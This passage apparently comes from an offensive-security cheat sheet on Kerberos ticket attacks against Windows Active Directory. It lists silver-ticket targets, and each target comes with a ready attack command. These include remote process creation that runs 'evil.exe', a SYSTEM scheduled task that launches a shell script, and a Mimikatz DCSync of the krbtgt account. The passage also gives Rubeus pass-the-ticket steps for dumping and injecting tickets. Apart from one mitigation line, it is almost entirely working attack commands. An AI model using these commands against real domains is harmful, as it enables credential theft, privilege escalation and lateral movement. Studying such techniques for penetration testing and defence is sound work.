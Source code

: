 ```bash
# SMBClient
impacket-smbclient -k -no-pass sql01.inlanefreight.local

# PSExec
impacket-psexec -k -no-pass sql01.inlanefreight.local
```
### Interesting services to target with a silver ticket :

| Service Type                                | Service Silver Tickets | Attack |
|---------------------------------------------|------------------------|--------|
| WMI                                         | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`     |
| PowerShell Remoting                         | CIFS + HTTP + (wsman?) | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM                                       | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks                             | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                   | CIFS                   | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync   | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools  | RPCSS   + LDAP  + CIFS | /      |

Mitigations:

* Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.

## Pass the Ticket(PtT)
> :warning: Make sure to create a sacrificial process to avoid overwriting an existing logon sessions Kerberos ticket. If SERVICE loses it's ticket, it will not get another one until a reboot

* Create a sacrificial process
```powershell
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
* Read the existing Tickets using Rubeus
```powershell
.\Rubeus.exe triage
```
* Extract the ticket for a **user** from the krbtgt service
```powershell
.\Rubeus.exe dump /luid:<luid> /service:<service> /nowrap

# or dump all of the tickets
.\Rubeus.exe dump /nowrap
```
* Use the Rubeus Renew function to get a TGT
```cmd
Rubeus.exe renew /ticket:<ticket> /ptt
```
## Pass-the-Ticket Diamond Tickets
